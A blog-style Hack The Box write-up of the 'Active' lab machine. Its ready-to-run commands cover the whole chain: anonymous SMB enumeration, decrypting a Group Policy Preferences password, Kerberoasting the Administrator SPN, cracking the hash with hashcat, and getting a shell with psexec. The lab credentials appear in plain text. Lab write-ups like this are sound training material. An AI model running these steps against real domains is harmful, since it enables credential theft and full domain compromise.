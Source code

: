 ```yaml
---
layout: post
title: Active
description: Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
categories: [writeups]
tags: [HTB, Active Directory, Kerbroasting, GPP]
image:
  path: /assets/active/Active.png
---
```


## **Summary**

A publicaly accessible share contained encrypted credentials which we decrypted using the disclosed by Microsoft. One we had these credentials we found a
`Service Principle Name` tied to the user `Administrator` which we leveraged to obtain a password hash, then crack it.

## **Enum**

### **nmap**

Initial nmap scan reveals multiple open ports including 88 (kerberos), 445 (smb), ldap (389) and rpc (135). The presense of these ports incdicate that this is a domain controller in the domain `ACTIVE.HTB`

![](/assets/active/000.png)

### **port - 445**

Enumerating SMB shares shows that we have anonymous Read access over `Replication` share

```sh
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
```

![](/assets/active/001.png)

This share seems to be a copy of `SYSVOL` share which is used to store group policy templates, log on, logoff, startup and shutdown scripts.

```sh
smbclient -N //10.10.10.100/Replication
```

![](/assets/active/002.png)

In `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` there is a file `Groups.xml` containing `SVC_TGS` user's credentials.

![](/assets/active/003.png)

![](/assets/active/004.png)

```
cpassword="edBSHOwhZLTjtQS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYwNglVmQ"
userName="active.htb\SVC_TGS"
```

The password is encrypted using AES-256 but the decryption key has been disclosed by [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)

## **Foothold**

After obtaining the encrypted GPP password, we used `gpp-decrypt` tool to decrypt it. You can download the tool with the following command `sudo apt install gpp-decrypt`

```sh
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![](/assets/active/005.png)

The password of `SVC_TGS` is `GPPstillStandingStrong2k18`

This user have read access over multiple shares

```sh
crackmapexec smb 10.10.10.100 -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 --shares
```

![](/assets/active/006.png)

We could access `SVC_TGS` home directory from `Users` share and get the first flag.

```sh
smbclient -U active.htb/svc_tgs%GPPstillStandingStrong2k18 //10.10.10.100/Users
```

![](/assets/active/007.png)

## **PrivEsc**

**What is a SPN?**

> SPN stands for Service Principal Name, it is an attribute that ties a service to a user account within the AD.

SPNs could be leveraged by an attacker to get a hash that can be cracked using a tool such as hashcat and obtain the password of the user associated with it. This type of attack is called [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#kerberoast)

We found a `SPN` affiliated with the user `Administrator`.

```sh
GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18
```

![](/assets/active/008.png)

We requested a Kerberos ticket for the spn `CIFS`, this ticket was encrypted using the password hash of the user affiliated with this SPN, in this case the user was `Administrator`

```sh
GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18 -request | tee tgs.hash
```

![](/assets/active/009.png)

We were able to crack this hash offline using `hashcat`.

```sh
hashcat -a 0 -m 13100 tgs.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/active/010.png)

The `Administrator`'s password is `Ticketmaster1968`.

As Administrator, we have full access over all the shares.

Here we accessed the `C$` share which is the root of the file system.

```sh
smbclient -U active.htb/administrator%Ticketmaster1968 //10.10.10.100/C\$
```

![](/assets/active/011.png)

We can also leverage the write access over all the share to get a reverse shell using a tool such as `psexec`.

```sh
psexec.py -dc-ip 10.10.10.100 active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

![](/assets/active/012.png)

This way, we accessed the DC as `Administrator` and we got the root flag.
